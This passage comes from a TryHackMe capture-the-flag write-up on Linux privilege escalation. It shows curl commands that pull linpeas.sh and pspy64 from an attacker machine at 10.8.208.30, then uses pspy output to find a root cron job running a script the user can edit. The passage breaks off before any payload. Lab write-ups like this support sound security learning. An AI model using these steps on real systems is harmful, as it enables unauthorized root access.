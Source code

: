 After a while, I found out that user `lennie` is allowed to edit this file. So we can adapt it to get `root` access.

```commandline
lennie@startup:~$ ls -lah /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Need a few tools of my attackers box. So again:

```commandline
cd ~/tools
python -m SimpleHTTPServer 8080
```

On the target computer getting the `linpeas.sh` and `pspy64` scripts:

```commandline
cd /tmp
curl http://10.8.208.30:8080/linpeas.sh -o linpeas.sh
curl http://10.8.208.30:8080/pspy64 -o pspy64
chmod +x linpeas.sh pspy64
```

I have looked with the [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script but did not help me this time. It gave me information I already knew so far. So I cross my 8 fingers in the hope this will work.

Apparently this is a cron job, check out this tool: <https://github.com/DominicBreuker/pspy> so I download the precompiled binary <https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64> on my attackers box, as there is no internet on these lab computer of TryHackMe. So I downloaded the file on my attackers computer <https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64>

This script gave me the info that this is about a cron job that is run every minute and by root user. Actually like you can see bellow, it doesn't tell us it is about `root` user, it only give us the information `UID=0`. But heck, that's `root`.

```commandline
...
2021/08/16 01:11:01 CMD: UID=0    PID=2585   | /usr/sbin/CRON -f 
2021/08/16 01:12:01 CMD: UID=0    PID=2593   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:12:01 CMD: UID=0    PID=2592   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:12:01 CMD: UID=0    PID=2591   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/16 01:12:01 CMD: UID=0    PID=2590   | /usr/sbin/CRON -f 
2021/08/16 01:13:01 CMD: UID=0    PID=2598   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:13:01 CMD: UID=0    PID=2597   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:13:01 CMD: UID=0    PID=2596   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/16 01:13:01 CMD: UID=0    PID=2595   | /usr/sbin/CRON -f 
2021/08/16 01:14:01 CMD: UID=0    PID=2603   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:14:01 CMD: UID=0    PID=2602   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:14:01 CMD: UID=0    PID=2601   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/16 01:14:01 CMD: UID=0    PID=2600   | /usr/sbin/CRON -f 
2021/08/16 01:14:01 CMD: UID=0    PID=2604   | /bin/bash /home/lennie/scripts/planner.sh
```

So, this is clear, we need to mess around with that script that is run as root user, to gain root access. We have various opportunities here. The sky is the limit, like some Flemish bourgeoisie reality TV show will say. And this is actually true.
